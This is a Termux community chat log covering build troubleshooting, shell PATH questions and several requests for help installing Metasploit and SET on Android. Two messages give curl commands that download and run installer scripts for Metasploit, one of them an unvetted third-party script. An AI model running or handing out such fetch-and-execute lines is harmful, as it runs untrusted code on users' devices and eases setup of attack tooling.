2017-07-29 01:19:33	gitter	(Techzindia) compiling netifaces.c

2017-07-29 01:19:33	gitter	(Techzindia) [full message: https://gitter.im/termux/termux?at=597c1ae6c101bc4e3acdb192]

2017-07-29 01:20:14	gitter	(Techzindia)  @vishalbiswas yes

2017-07-29 01:20:34	gitter	(suryapoo) weird:  when i write a server in node..it shows 504 status in browser...but when i use curl ..it works perfectly..your views?

2017-07-29 01:26:53	sdrausty	Auxilus: The steps to build the APK from source are:

2017-07-29 01:28:07	sdrausty	cd && pkg install aapt apksigner dx ecj git

2017-07-29 01:28:07	sdrausty	git clone https://github.com/sdrausty/buildAPKs

2017-07-29 01:28:07	sdrausty	./buildAPKs/buildMyFirstAPK.sh

2017-07-29 01:28:57	sdrausty	A little more information at https://sdrausty.github.io/buildAPKs/reallyEasilyBuildAndroidAPKsOnDevice

2017-07-29 01:30:28	sdrausty	Don't forget to `apt update && apt upgrade`

2017-07-29 01:35:43	gitter	(Auxilus) @Techzindia have you patched netifaces.c ?

2017-07-29 01:53:14	gitter	(suryapoo) @Auxilus is it working?

2017-07-29 01:54:16	gitter	(Auxilus) @suryapoo script is working

2017-07-29 01:54:25	gitter	(Auxilus) What errors are you getting ?

2017-07-29 01:56:19	gitter	(Techzindia) @Auxilus  ya patched

2017-07-29 01:57:00	gitter	(Auxilus) Now `gem build network_interface.gemspec`

2017-07-29 01:57:10	gitter	(Auxilus) In network interfere dir

2017-07-29 01:58:59	gitter	(Techzindia) sed 's|git ls-files|find -type f|' -i network_interface.gemspec

2017-07-29 01:58:59	gitter	(Techzindia) $ curl -L https://wiki.termux.com/images/6/6b/Netifaces.patch -o netifaces.patch

2017-07-29 01:58:59	gitter	(Techzindia)   % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current

2017-07-29 01:58:59	gitter	(Techzindia) [full message: https://gitter.im/termux/termux?at=597c242445fc670746d7e16f]

2017-07-29 01:59:39	gitter	(Techzindia) ...

2017-07-29 01:59:40	gitter	(Techzindia) ERROR:  Error installing network_interface-0.0.1.gem:

2017-07-29 01:59:40	gitter	(Techzindia)         ERROR: Failed to build gem native extension.

2017-07-29 01:59:40	gitter	(Techzindia) [full message: https://gitter.im/termux/termux?at=597c244cc101bc4e3acdce58]

2017-07-29 02:42:12	gitter	(vishalbiswas) there are so many screenshots, can you give the link here

2017-07-29 02:42:38	gitter	(vishalbiswas) @Techzindia got it

2017-07-29 02:42:46	gitter	(vishalbiswas) what arch are you on?

2017-07-29 02:49:21	gitter	(Auxilus) @vishalbiswas looks like error is in `netifaces.h`

2017-07-29 02:49:21	gitter	(Auxilus) Line 75

2017-07-29 02:49:29	gitter	(vishalbiswas) @Techzindia retry now updated the patch

2017-07-29 02:49:37	gitter	(vishalbiswas) some phones require that too

2017-07-29 02:49:47	gitter	(vishalbiswas) please redo network_interface step

2017-07-29 02:52:39	sdrausty	vishalbiswas: Your lead https://mvnrepository.com/artifact/com.google.android/android/4.1.1.4 has inspired https://github.com/sdrausty/buildAPKsLibraries Thank You.

2017-07-29 02:54:27	gitter	(vishalbiswas) sdrausty: btw that is the android plugin not a library to be linked

2017-07-29 02:54:57	sdrausty	Android plugin?

2017-07-29 02:55:17	gitter	(vishalbiswas) for ide

2017-07-29 02:55:33	gitter	(vishalbiswas) i just gave you that as an example

2017-07-29 02:55:44	gitter	(vishalbiswas) but it doesn't change things don't worry

2017-07-29 02:55:51	sdrausty	You just inspired buildAPKsAtifacts Thank you again. lol

2017-07-29 02:56:22	gitter	(vishalbiswas) i mean you shouldn't have that in your repo

2017-07-29 02:56:36	gitter	(vishalbiswas) instead have android support library binaries

2017-07-29 02:57:38	sdrausty	https://github.com/sdrausty/buildAPKsLibraries is a submode to be link against source.

2017-07-29 02:58:09	gitter	(vishalbiswas) @Auxilus why don't you fix the shebang in your repo itself?

2017-07-29 03:00:12	gitter	(vishalbiswas) I simplified your script instructions in the wik

2017-07-29 03:05:33	sdrausty	@vishalbiswas com.android.tools.build:gradle:2.3.3 is in https://github.com/vishalbiswas/Splash/blob/master/build.gradle and must be linked with https://github.com/vishalbiswas/Splash to resolve https://github.com/vishalbiswas/Splash/issues/2 on device, in this case a smartphone. Correct?

2017-07-29 03:06:37	gitter	(vishalbiswas) that should only be done if you are using gradle I think

2017-07-29 03:06:54	gitter	(vishalbiswas) and this is the top level build.gradle

2017-07-29 03:07:09	gitter	(vishalbiswas) dependencies are given in module build.gradle

2017-07-29 03:07:32	gitter	(vishalbiswas) this one -> https://github.com/vishalbiswas/Splash/blob/master/app/build.gradle

2017-07-29 03:12:44	sdrausty	@vishalbiswas In this particular case your source must be linked with android-2.3.3.jar using ecj, aapt or both? And which option should be used to invoke linking with either ecj or aapt? Do you have any idea?

2017-07-29 03:13:07	sdrausty	Not using gradle @vishalbiswas

2017-07-29 03:14:12	sdrausty	We have the same link https://github.com/vishalbiswas/Splash/blob/master/build.gradle

2017-07-29 03:14:37	sdrausty	translates to android-2.3.3.jar

2017-07-29 03:15:08	gitter	(vishalbiswas) no

2017-07-29 03:15:20	gitter	(vishalbiswas) i linked to the build.gradle file in app directory

2017-07-29 03:15:29	sdrausty	no what?

2017-07-29 03:15:33	gitter	(vishalbiswas) each module has another build.gradle

2017-07-29 03:16:00	sdrausty	each project has one build.gradle

2017-07-29 03:16:01	gitter	(vishalbiswas) the top level build.gradle file specifies that android plugin for gradle, which we don't use

2017-07-29 03:16:22	gitter	(vishalbiswas) click on my link

2017-07-29 03:16:27	sdrausty	don't use?

2017-07-29 03:16:38	gitter	(vishalbiswas) we are not using gradle

2017-07-29 03:16:53	sdrausty	no we are not using gradle

2017-07-29 03:17:13	sdrausty	we just want the parts gradle uses

2017-07-29 03:17:56	gitter	(Techzindia) Now ... problem Solved​ ;)

2017-07-29 03:17:56	gitter	(vishalbiswas) click the link i posted and look for dependencies { there

2017-07-29 03:18:07	sdrausty	I clicked on your link and google lead me to android-2.3.3.jar

2017-07-29 03:18:23	gitter	(vishalbiswas) https://github.com/vishalbiswas/Splash/blob/master/app/build.gradle

2017-07-29 03:19:04	gitter	(vishalbiswas) ```gradle

2017-07-29 03:19:04	gitter	(vishalbiswas) dependencies {

2017-07-29 03:19:04	gitter	(vishalbiswas)     compile fileTree(include: ['*.jar'], dir: 'libs')

2017-07-29 03:19:04	gitter	(vishalbiswas) [full message: https://gitter.im/termux/termux?at=597c36e74bcd78af56f64a11]

2017-07-29 03:19:21	sdrausty	Aah, we need a few more of these.

2017-07-29 03:19:29	sdrausty	no problem

2017-07-29 03:19:35	gitter	(vishalbiswas) first line says to link against all *.jar files in libs/

2017-07-29 03:19:43	sdrausty	it will just take some time

2017-07-29 03:19:49	gitter	(vishalbiswas) but not all apps use the same library version

2017-07-29 03:19:53	sdrausty	that's all

2017-07-29 03:20:02	gitter	(vishalbiswas) and they are not inter-compatible

2017-07-29 03:20:08	gitter	(vishalbiswas) thats the biggest hurdle

2017-07-29 03:20:17	gitter	(vishalbiswas) dependency resolution

2017-07-29 03:20:25	sdrausty	as long as we can extract what's needed

2017-07-29 03:21:56	gitter	(Auxilus) @vishalbiswas I'll do it right away

2017-07-29 03:22:07	sdrausty	in the long run these 

2017-07-29 03:22:13	sdrausty	dependencies should be directly download from 

2017-07-29 03:22:37	gitter	(Auxilus) Should I do` /bin/sh` or `/bin/bash` ?

2017-07-29 03:22:44	gitter	(Auxilus) Both same things ?

2017-07-29 03:22:44	sdrausty	https://mvnrepository.com/

2017-07-29 03:22:59	sdrausty	That's the goal.

2017-07-29 03:24:14	gitter	(vishalbiswas) @Auxilus #!/data/data/com.termux/files/usr/bin/bash

2017-07-29 03:24:23	gitter	(Auxilus) Done

2017-07-29 03:24:38	sdrausty	As I mentioned before, ”`wget` and a little elbow grease might be all we need to make these project build on device "

2017-07-29 03:24:56	gitter	(Auxilus) What do we have to do to get metasploit run as command?

2017-07-29 03:26:20	sdrausty	*projects

2017-07-29 03:27:06	sdrausty	Build a metasploit APK?

2017-07-29 03:27:20	gitter	(vishalbiswas) @Auxilus either add that directory to PATH or ln -s all required tools

2017-07-29 03:28:07	gitter	(Auxilus) Nay , I mean like `msfconsole` instead of `./msfconsole`

2017-07-29 03:29:24	gitter	(vishalbiswas) that's what i said

2017-07-29 03:38:24	gitter	(Auxilus)  KK

2017-07-29 03:38:24	gitter	(Auxilus)

2017-07-29 03:38:54	gitter	(Auxilus) Then each time I open Termux I'll be in `metasploit-framework` ?

2017-07-29 03:40:11	gitter	(vishalbiswas) who r u talking to?

2017-07-29 03:40:56	sdrausty	@vishalbiswas Splash has 1171 build.gradle files. 

2017-07-29 03:41:04	gitter	(Auxilus) You @vishalbiswas

2017-07-29 03:41:26	gitter	(vishalbiswas) sdrausty: how did you get the count?

2017-07-29 03:41:31	gitter	(Auxilus) `$PATH` is default dir right ?

2017-07-29 03:41:37	gitter	(vishalbiswas) @Auxilus no

2017-07-29 03:41:51	sdrausty	This is going to take some time...

2017-07-29 03:42:02	gitter	(Auxilus) K

2017-07-29 03:42:07	gitter	(vishalbiswas) $PATH is the list of directories whose files you can call directly

2017-07-29 03:42:25	gitter	(Auxilus) Ah , ok

2017-07-29 03:42:41	sdrausty	$ find -name build.gradle >> t

2017-07-29 03:42:41	sdrausty	$ vi t

2017-07-29 03:42:41	sdrausty	$

2017-07-29 03:42:46	gitter	(Auxilus) How can I see values currently stored in $PATH ?

2017-07-29 03:42:55	sdrausty	The G in `vi`

2017-07-29 03:43:06	gitter	(Auxilus) `cat $PATH` ?

2017-07-29 03:43:39	gitter	(vishalbiswas) @Auxilus echo $PATH

2017-07-29 03:43:46	gitter	(Auxilus) K

2017-07-29 03:44:14	gitter	(vishalbiswas) sdrausty: `[vishal@VISHAL-PC ~]$ cd AndroidStudioProjects/Splash/

2017-07-29 03:44:14	gitter	(vishalbiswas) [vishal@VISHAL-PC Splash]$ find -name build.gradle

2017-07-29 03:44:14	gitter	(vishalbiswas) ./build.gradle

2017-07-29 03:44:14	gitter	(vishalbiswas) [full message: https://gitter.im/termux/termux?at=597c3ccd45fc670746d825a5]

2017-07-29 03:44:34	gitter	(Auxilus) And add path with `export $PATH = $HOME/metasploit-framework` ?

2017-07-29 03:44:34	sdrausty	lol

2017-07-29 03:45:19	gitter	(vishalbiswas) @Auxilus it is reset for every session

2017-07-29 03:45:35	gitter	(Auxilus) @vishalbiswas what's the name of that keyboard on page https://termux.com/touch-keyboard.html

2017-07-29 03:46:29	gitter	(vishalbiswas) @Auxilus see earlier replies. frumpylava answered u. swiftkey

2017-07-29 03:47:01	gitter	(Auxilus) Okay , I missed that comment maybe , ty

2017-07-29 03:47:19	sdrausty	The *Then

2017-07-29 03:50:58	sdrausty	Gboard works well once you are used to it @Auxilus

2017-07-29 03:51:39	gitter	(Auxilus) I am currently using gboard

2017-07-29 03:51:53	sdrausty	Great

2017-07-29 03:51:54	gitter	(Auxilus) And I am used to it :smile:

2017-07-29 03:52:00	sdrausty	lol

2017-07-29 03:52:03	gitter	(vishalbiswas) I just use hackers keyboard, who needs prediction, swipe touch, multiple languages

2017-07-29 03:52:13	gitter	(vishalbiswas) customizable themes

2017-07-29 03:52:20	gitter	(vishalbiswas) emojis

2017-07-29 03:52:38	sdrausty	Gboard has this too.

2017-07-29 03:52:48	gitter	(Auxilus) Aye I use hackers keyboard too sometimes

2017-07-29 03:53:08	sdrausty	I tried it.

2017-07-29 03:53:39	gitter	(vishalbiswas) hackers keyboard has none of these

2017-07-29 03:53:44	sdrausty	I prefer Gboard ever since we got ctrl+Q

2017-07-29 03:54:21	sdrausty	Any way to get pop-ups from ctrl-Q in the near future @forwall

2017-07-29 03:55:11	gitter	(Auxilus) @vishalbiswas what's termux-infeared?

2017-07-29 03:55:12	sdrausty	i.e. / pops up to \

2017-07-29 03:55:33	gitter	(vishalbiswas) infrared?

2017-07-29 03:56:17	gitter	(Auxilus) `termux-infeared-transmit`

2017-07-29 03:56:21	gitter	(Auxilus) From api

2017-07-29 03:56:25	gitter	(vishalbiswas) infrared

2017-07-29 03:56:29	gitter	(Auxilus) What does it do?

2017-07-29 03:56:47	gitter	(vishalbiswas) search for infrared transmitter on google

2017-07-29 03:56:52	gitter	(vishalbiswas) some phones have it

2017-07-29 03:56:59	sdrausty	Let's you control Android from Termux.

2017-07-29 03:57:29	gitter	(vishalbiswas) the transmitter at the top of a remote (tv) is an IR transmitter

2017-07-29 03:58:04	gitter	(Auxilus) K, got it

2017-07-29 03:58:10	sdrausty	You can use Termux to change channels on your TV, for instance @Auxilus

2017-07-29 03:58:34	gitter	(vishalbiswas) my phone has one, but its vendor locked

2017-07-29 03:58:45	gitter	(vishalbiswas) it only works with peel smart remote

2017-07-29 03:58:52	gitter	(Auxilus) My other phone has..

2017-07-29 06:49:49	gitter	(suryapoo) Is mongodb supported in termux

2017-07-29 07:28:10	gitter	(Auxilus) @vishalbiswas Hax4us is also getting errors regarding activesupport gem

2017-07-29 07:48:05	gitter	(Auxilus) Why I sometimes can't cd in dirs though shell script?

2017-07-29 08:05:36	gitter	(vishalbiswas) @suryapoo no, not yet. and it may be a while if it's implemented, if ever

2017-07-29 08:22:00	gitter	(suryapoo) @vishalbiswas cool

2017-07-29 11:31:54	gitter	(Auxilus) I have a script running on localhost and on port 65000, how can I use ngrok to use it remotely over Wan?

2017-07-29 12:17:38	gitter	(Auxilus) ?

2017-07-29 12:26:50	sdrausty	@Auxilus You need to source your script to use it to `cd`.

2017-07-29 12:29:38	sdrausty	@Auxilus You can do this by using `.` for example `. script`

2017-07-29 12:33:41	sdrausty	@Auxilus Add an alias to `.bashrc` and it sources the script automatically, for example add `alias script='. script' to `.bashrc`

2017-07-29 12:34:29	gitter	(Auxilus) Hey man

2017-07-29 12:34:50	gitter	(Auxilus) You ever used ngrok?

2017-07-29 12:35:11	sdrausty	What's ngrok?

2017-07-29 12:36:53	sdrausty	`alias script='. script' *`alias s='. script'

2017-07-29 12:42:47	sdrausty	@Auxilus How is build APKs working for you?

2017-07-29 12:44:13	gitter	(Auxilus) Not sure exactly, made an apk with sample from your repo

2017-07-29 12:45:02	gitter	(Auxilus) But I really don't know how I can build apk of termux:widget  out of the app code on github

2017-07-29 12:45:42	gitter	(sdrausty) Great it built on your device. What device did you use?

2017-07-29 12:47:05	gitter	(sdrausty) Termux apps do not build with this system yet, but @vishalbiswas gave me a couple good clues so maybe they will compile too.

2017-07-29 12:48:04	gitter	(Auxilus) @sdrausty im on op2

2017-07-29 12:48:58	gitter	(Auxilus) @sdrausty do you have something like `. /BUILD APP. share <app_src_dir> appname`?

2017-07-29 12:49:18	gitter	(Auxilus) I got typo

2017-07-29 12:49:18	gitter	(sdrausty) ?

2017-07-29 12:49:53	gitter	(sdrausty) op2?

2017-07-29 12:50:02	gitter	(Auxilus) It should be `. /build app < app directory>`

2017-07-29 12:50:10	gitter	(Auxilus) One plus 2

2017-07-29 12:50:17	gitter	(Auxilus) Shiiitttt

2017-07-29 12:50:27	gitter	(Auxilus) buildAPP.sh

2017-07-29 12:51:59	sdrausty	buildAPP.sh?

2017-07-29 12:52:47	gitter	(Auxilus) Your script

2017-07-29 12:52:59	sdrausty	64G wow

2017-07-29 12:54:25	sdrausty	There is no buildAPP.sh in https://github.com/sdrausty/buildAPKs

2017-07-29 12:55:24	sdrausty	https://github.com/sdrausty/buildAPKs/tree/master/scripts/build

2017-07-29 12:55:54	gitter	(Auxilus) It was a suggestion

2017-07-29 12:56:39	sdrausty	oh

2017-07-29 12:57:39	sdrausty	Thank you @Auxilus

2017-07-29 12:58:26	gitter	(Auxilus) can you implement it?

2017-07-29 12:59:47	sdrausty	I'll see. Maybe. It sounds like a good idea:)

2017-07-29 13:01:50	sdrausty	How is sourcing cd scripts with `.` working for you. It makes navigating from the command line a breeze.

2017-07-29 13:02:19	sdrausty	When you add an alias to `.bashrc`

2017-07-29 13:04:12	gitter	(Auxilus) I don't really need that to be done, but my frnd got error with that, so I just asked it here :p

2017-07-29 13:09:06	sdrausty	It took me a while to figure out how to cd with scripts effectively.

2017-07-29 13:11:23	gitter	(Auxilus) Sry if I wasted your time sdrausty

2017-07-29 13:12:23	gitter	(Hax4us) 😁sdrausty is bot ?

2017-07-29 13:15:08	gitter	(Auxilus) Nay

2017-07-29 13:15:10	gitter	(Auxilus) He is not

2017-07-29 13:16:26	gitter	(Auxilus) @Hax4us why?

2017-07-29 13:16:50	sdrausty	Why do you think I am a bot @Hax4us ?

2017-07-29 13:17:44	gitter	(Hax4us) Srry...but..IRC/Gitter bot is written...that's why

2017-07-29 13:17:50	gitter	(Auxilus) Lol

2017-07-29 13:17:50	gitter	(Auxilus) I think that's bcz your name is shown under @TermuxBot

2017-07-29 13:17:51	sdrausty	We could use a good info bot here at #termux

2017-07-29 13:18:17	sdrausty	Something that answers FAQs

2017-07-29 13:18:28	gitter	(Auxilus) sdrausty:you prefer irc over gitter?

2017-07-29 13:19:02	sdrausty	In fact Termux could have an FAQ

2017-07-29 13:19:23	gitter	(Auxilus) Faq page?

2017-07-29 13:19:32	gitter	(Auxilus) Sure, nice idea

2017-07-29 13:19:38	sdrausty	@Auxilus I am enjoying both gitter and irc

2017-07-29 13:20:21	gitter	(Auxilus) :smile:

2017-07-29 13:20:32	Auxilus	VTyo

2017-07-29 13:20:48	Auxilus	@sdrausty, hi man, I'm on irc too

2017-07-29 13:20:55	sdrausty	cool

2017-07-29 13:21:32	Auxilus	Do you get to view history of conversations while you were not logged in here?

2017-07-29 13:22:04	sdrausty	IRC/Gitter bot is way cool

2017-07-29 13:23:08	sdrausty	I have created an automated page https://sdrausty.github.io/logs/ircFreenodeTermuxWeechatlog 

2017-07-29 13:23:48	sdrausty	It helps me study what's going on here #termux

2017-07-29 13:24:17	sdrausty	All that scrolling in gitter is anoying

2017-07-29 13:25:18	gitter	(Auxilus) Ye  😁

2017-07-29 13:25:20	sdrausty	Maybe this page will evolve into FAQ or FAQ #termux bot

2017-07-29 13:26:02	gitter	(Auxilus) Wwttthhh

2017-07-29 13:26:47	gitter	(Auxilus) You got whole gitter history stored??!

2017-07-29 13:26:57	sdrausty	Sometimes I see users asking simple questoins #termux but there is no one to answer 

2017-07-29 13:27:19	gitter	(Hax4us) 😊yes u r right

2017-07-29 13:27:29	sdrausty	No but I would like to

2017-07-29 13:27:48	gitter	(themastersunil) can i install setoolkit in termux???? without root.

2017-07-29 13:28:23	gitter	(themastersunil) anyone is here?????

2017-07-29 13:28:55	gitter	(Auxilus) @themastersunil

2017-07-29 13:29:10	gitter	(Auxilus) We don't have Ll dependencies for setooklit

2017-07-29 13:29:55	gitter	(themastersunil) okk

2017-07-29 13:30:33	gitter	(themastersunil) now for rooted phone, have any LI dependencies?

2017-07-29 13:32:14	gitter	(Hax4us) Nop..BRo..just wait for that...

2017-07-29 13:32:57	gitter	(themastersunil) ok

2017-07-29 13:34:13	gitter	(Auxilus) @themastersunil not Like dependencies

2017-07-29 13:34:19	gitter	(Auxilus) Sry it was typo

2017-07-29 13:34:35	gitter	(themastersunil) typo???

2017-07-29 13:34:35	gitter	(Auxilus) I meant to say 'all dependencies'

2017-07-29 13:36:07	gitter	(Auxilus) Typo = typing mistake

2017-07-29 13:37:59	sdrausty	Wait or make it happen with https://github.com/termux/termux-packages/pulls

2017-07-29 13:38:12	sdrausty	?

2017-07-29 13:43:29	gitter	(Auxilus) sdrausty : are you gonna create termux-faq?

2017-07-29 13:44:19	sdrausty	@Auxilus I have made a command `cd` which places me in com.termux on my external SDcard. You can see a screenshot of this command in action at https://github.com/termux/termux-packages/issues/1176

2017-07-29 13:44:51	sdrausty	@Auxilus Considering it.

2017-07-29 13:45:34	sdrausty	`cd` *`cdt`

2017-07-29 13:45:51	gitter	(themastersunil) @Hax4us Hey you know abou it

2017-07-29 13:45:54	gitter	(themastersunil) curl https://raw.githubusercontent.com/rapid7/metasploit-omnibus/master/config/templates/metasploit-framework-wrappers/msfupdate.erb > msfinstall && \ chmod 755 msfinstall && \ ./msfinstall

2017-07-29 13:46:14	gitter	(themastersunil) how to install metasploit using it.

2017-07-29 13:46:39	sdrausty	Three keys, then enter and whoa

2017-07-29 13:48:25	sdrausty	@Auxilus Making an FAQ should not be too difficult if we had access to the entire log for #termux

2017-07-29 13:49:17	gitter	(Auxilus) sdrausty : you gonna put it on wiki or on github?

2017-07-29 13:49:35	gitter	(Auxilus) I can get you some noobie questions

2017-07-29 14:05:32	gitter	(suryapoo)  Bitbucket for termux?

2017-07-29 14:05:42	gitter	(suryapoo) Git is there ...

2017-07-29 14:20:29	sdrausty	Write then up and submit at https://github.com/sdrausty/sdrausty.github.io/pulls I'll be glad to add an FAQ page to https://sdrausty.github.io @Auxilus

2017-07-29 14:21:41	sdrausty	It can be easily uploaded to wiki.termux.com too

2017-07-29 14:22:28	sdrausty	I am not thrild the wiki requires a seperate login. 

2017-07-29 14:22:57	sdrausty	No login wiki would be way cool.

2017-07-29 14:24:56	sdrausty	Immature pages on wikipedia allow anonymous editting.

2017-07-29 14:45:45	cjp	Any pitfalls with changing shell via chsh to zsh? I'm running into an issue where when I restart termux after a bunch of customization, no commands work... "The program 'pkg' is not installed..."

2017-07-29 14:46:07	cjp	Wondering if my changing of the shell to zsh broke things.

2017-07-29 14:46:27	sdrausty	bash is bash

2017-07-29 14:49:32	cjp	I launch termux and I get 30 or so $ prompts, as if someone had held down enter for awhile. Then no commands work. Quite odd.

2017-07-29 14:52:58	cjp	sdrausty: good advice. bash obeys PATH just as always. PATH is fubared.

2017-07-29 14:53:10	cjp	Hence bash can't run anything :)

2017-07-29 15:12:07	zack_	I'm using the latest developer build of Chrome OS: Version 61.0.3163.13 (Official Build) dev (64-bit) and getting this error from rsync:

2017-07-29 15:12:22	zack_	CANNOT LINK EXECUTABLE "rsync": cannot locate symbol "__moddi3" referenced by "/usr/bin/rsync"... [1]    7764 abort (core dumped)  rsync

2017-07-29 15:12:38	zack_	anyone else seeing the same problem?

2017-07-29 15:17:48	sdrausty	cjp: Are you using Gboard? I had to downgrade Gboard after yesterdays Google Play update. It was not working correctly.

2017-07-29 15:22:20	sdrausty	zack_: `rsync` works. Try `apt update && apt upgrade`

2017-07-29 15:57:56	cjp	sdrausty: no Gboard. I've got it sorted now... I messed with the PATH, that's what broke it. I'm still getting the weirdness like someone hitting a bunch of newlines upon startup, but it seems only cosmetic.

2017-07-29 15:58:16	cottongin	it does that for me too

2017-07-29 15:58:20	cottongin	i thought it was a chromeos thing

2017-07-29 15:58:33	cottongin	if you hit a key on the keyboard to interrupt it it stops

2017-07-29 15:58:41	cjp	cottongin: same exact issue.

2017-07-29 15:58:53	cjp	cottongin: also on a chromeos box.

2017-07-29 15:59:01	cottongin	so maybe it is a chromeos thing

2017-07-29 15:59:12	cottongin	it's like the enter key is stuck or something

2017-07-29 15:59:14	cottongin	lol

2017-07-29 15:59:26	cjp	again, cosmetic, so not worth too much effort.

2017-07-29 15:59:38	cottongin	yeah i just hit a key and ignore it

2017-07-29 15:59:49	cjp	I thought that issue was linked with the issue caused by my breaking the PATH. :)

2017-07-29 16:00:07	cottongin	i haven't messed with PATH at all so probably not linked

2017-07-29 16:00:23	cjp	As sdrausty indicated above... the shell is the shell. Normal rules apply. :)

2017-07-29 16:00:49	cjp	Yeah, now that I leave the location of the binaries in the PATH, things actually work. What a surprise! :)

2017-07-29 16:16:03	gitter	(sdrausty) @suryapoo

2017-07-29 16:16:33	gitter	(sdrausty) https://sdrausty.github.io/buildAPKs/reallyEasilyBuildAndroidAPKsOnDevice

2017-07-29 16:35:22	gitter	(sdrausty) @H

2017-07-29 16:38:31	sdrausty	@Hax4us lol

2017-07-29 16:39:58	sdrausty	@Hax4us Gitterbot merges irc chat to gitter chat.

2017-07-29 16:40:20	sdrausty	to *with

2017-07-29 19:34:00	sdrausty	https://github.com/termux/termux-packages/issues/1176

2017-07-29 23:43:02	gitter	(suryapoo) @sdrausty ..thanks man!!

2017-07-29 23:51:17	sdrausty	@suryapoo You are welcome! :)

2017-07-30 00:45:47	gitter	(Auxilus) sdrausty : Let me know when you create faq page, im not really much used to `.md` pages

2017-07-30 00:46:49	gitter	(Auxilus) Looks like your github site has all `.md` pages

2017-07-30 01:01:17	sdrausty	markdown is simple https://github.com/adam-p/markdown-here/wiki/Markdown-Cheatsheet @Auxilus

2017-07-30 01:06:45	gitter	(Auxilus) sdrausty : I was hoping that you will create just template, basic structure for page, and ill edit it to add faqs and other info

2017-07-30 01:12:17	sdrausty	@Auxilus: Please submit a text file at of the FAQ at https://github.com/sdrausty/sdrausty.github.io/issues when you find the time. I will be glad to format and post it, possibly as a link on https://sdrausty.github.io/pages/asac

2017-07-30 01:13:01	gitter	(Auxilus) sdrausty : sure

2017-07-30 01:13:13	gitter	(Auxilus) Ill start digging for faqs

2017-07-30 01:13:33	gitter	(Auxilus) How do many we want?

2017-07-30 01:13:36	gitter	(Auxilus) 10?

2017-07-30 01:34:05	sdrausty	10 sounds like a great beginning!

2017-07-30 01:44:31	gitter	(suryapoo) Hi guys..happy sunday !!..can anyone help me with this node server issue..

2017-07-30 01:45:24	gitter	(suryapoo) The server is running at port 9000 on termux ..but when i browse via my web browser ..i get "origin 504 status" error..but when i use curl

2017-07-30 01:45:27	gitter	(suryapoo) Its fine..

2017-07-30 01:45:42	gitter	(suryapoo) Its driving me crazy..pls help.

2017-07-30 05:06:49	gitter	(suryapoo) Update:..its working now..

2017-07-30 05:08:15	gitter	(Auxilus) Is it running on localhost successfully?

2017-07-30 05:09:00	gitter	(suryapoo) Yup..

2017-07-30 05:09:10	gitter	(suryapoo) Was due to custom rom i guess

2017-07-30 05:09:10	gitter	(Auxilus) Try ngrok

2017-07-30 05:09:14	gitter	(suryapoo) Back to stock

2017-07-30 05:09:26	gitter	(suryapoo) Whats ngrok

2017-07-30 05:09:58	gitter	(Auxilus) Ngrok is nice to forward your page/script from localhost to WAN

2017-07-30 05:10:57	gitter	(suryapoo) Ohhh...okay man thanks

2017-07-30 05:11:21	gitter	(Auxilus) Np i discovered it yesterday only

2017-07-30 05:12:51	gitter	(suryapoo) Ohhh...

2017-07-30 05:13:25	gitter	(suryapoo) Dude if i have a remote git repo ..and i want to use it in termux..should i pull it or clone it

2017-07-30 05:14:11	gitter	(Auxilus) Ye you can commit /merge

2017-07-30 05:16:43	gitter	(suryapoo) So i shud pull it?

2017-07-30 05:17:22	gitter	(Auxilus) Clone it

2017-07-30 05:18:03	gitter	(suryapoo) Okay coool..

2017-07-30 06:22:17	live_the_dream	ummm iv got an arm build of n0dejs-current uploading currently...

2017-07-30 06:23:41	live_the_dream	also added ghostscript from grimler

2017-07-30 06:40:02	gitter	(suryapoo) Whats ghostscript?

2017-07-30 06:52:23	live_the_dream	Ghostscript is an interpreter for PostScript™ and Portable Document Format (PDF)

2017-07-30 08:08:21	gitter	(bitcoinmeetups) Hello. Is it possible to connect Termux to an X-server running locally on the mobile phone or something? If not, I would like to add it as a feature request. Termux is already the best Terminal app as far as I can tell and with an X-server or something it could be the best Linux emulator altogether on Android.

2017-07-30 08:15:11	gitter	(Grimler91) @live_the_dream nice! Could you add a comment about it on the pull request I opened?

2017-07-30 08:39:05	gitter	(suryapoo) @TermuxBot coool..

2017-07-30 08:39:22	u0_a83	hi. need a keyboard w/arrlw keys. could anybody tell me which one were used for the screenshots on https://termux.com/touch-keyboard.html ?

2017-07-30 09:05:42	gitter	(suryapoo) U can use hacker's keyboard.. It is like a computer keyboard

2017-07-30 09:20:11	u0_a83	thanks gitter. is it on fdroid?

2017-07-30 09:21:28	u0_a83	yes, it is.

2017-07-30 09:33:54	u0_a83	ok tHats t

2017-07-30 09:37:08	u0_a83	ok thats to small for my smalland has other disadvantages. if sb knows which k3yboard was usedthere or how to add just arrow keys to termux, let me know.

2017-07-30 09:53:51	Gloubi	Hello

2017-07-30 10:21:47	gitter	(Auxilus) u0_a83: its swiftkey, i asked same question the other day :p

2017-07-30 10:30:35	gitter	(Techzindia) Can i run .bat file in Termux??

2017-07-30 10:59:04	gitter	(scsarfa) Anyone, please help me for install metasploit on my termux??

2017-07-30 11:00:56	gitter	(Techzindia) @scsarfa  uninstall termux and reinstall then try my Script

2017-07-30 11:01:06	gitter	(Techzindia) curl -LO https://raw.githubusercontent.com/Techzindia/Metasploit_For_Termux/master/metasploitTechzindia.sh

2017-07-30 11:02:37	gitter	(Grimler91) @Techzindia .bat (batch) files are scripts for windows so won't work in termux

2017-07-30 11:02:38	gitter	(Auxilus) Wth

2017-07-30 11:03:26	gitter	(Auxilus) Everyone is pirating mah script 😕😯😅

2017-07-30 11:07:06	gitter	(scsarfa) Does it need anything else????

2017-07-30 11:07:08	gitter	(kuburan) @Auxilus what about msfdb ?

2017-07-30 11:07:09	gitter	(kuburan) any update

2017-07-30 11:57:45	gitter	(Auxilus) @kuburan no man, there is some problem with` schema.rb `script in Metasploit

2017-07-30 11:58:17	gitter	(Auxilus) Imma get back to it once i get a lil free

2017-07-30 11:58:25	gitter	(Techzindia) @Auxilus  😛🤗🤗😉

2017-07-30 11:58:51	gitter	(Auxilus) Ive created the script, it creates `yml` too, but schema gives errors

2017-07-30 12:02:05	gitter	(Auxilus) @Techzindia im fine with it till someone doest take credit for it 😉

2017-07-30 12:05:10	gitter	(Auxilus) @Techzindia batch file is more like shell script in linux, you think it as shell script for windows

2017-07-30 12:06:28	gitter	(Techzindia) Your base script is veryuseful  And My watchers are happy And Good response you also check my YT Channel www.Youtube.com/TechZindia

2017-07-30 12:07:11	gitter	(Auxilus) Nah man

2017-07-30 12:07:21	gitter	(Auxilus) Credit goes to @vishalbiswas

2017-07-30 12:07:29	gitter	(Auxilus) I just automated the process

2017-07-30 12:08:26	gitter	(themastersunil) sir I flashed new rom but,  stiill install python after 96% it stopped  and phone lag...........

